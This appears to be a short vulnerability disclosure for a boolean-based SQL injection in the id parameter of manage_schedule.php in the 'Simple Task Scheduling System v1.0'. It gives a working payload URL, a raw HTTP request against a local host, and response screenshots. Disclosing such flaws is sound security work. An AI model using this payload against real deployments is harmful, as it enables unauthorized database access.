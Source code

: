 # Simple Task Scheduling System v1.0 by oretnom23 has SQL injection

BUG_Author: RUST

vendors: https://www.sourcecodester.com/php/15328/simple-task-scheduler-system-phpoop-free-source-code.html

The program is built using the xmapp-php5.6 version

Vulnerability File: /tss/admin/schedules/manage_schedule.php

Vulnerability location: /tss/admin/schedules/manage_schedule.php, id

db_name = tss_db;length=6

[+] Payload: /tss/admin/schedules/manage_schedule.php?id=1%27%20and%20length(database())%20=6--+ // Leak place ---> id

```sql
GET /tss/admin/schedules/manage_schedule.php?id=1%27%20and%20length(database())%20=6--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: _ga=GA1.1.1382961971.1655097107; PHPSESSID=tc6akb10bh652defck09t9eug4
Connection: close
```

When length (database ()) = 6
![image](https://user-images.githubusercontent.com/54017627/179392434-cdb930dd-0cb2-425f-9975-592201214bcc.png)

When length (database ()) = 5
![image](https://user-images.githubusercontent.com/54017627/179392439-7df9acf7-97f0-4698-bd34-5c03b5b17517.png)
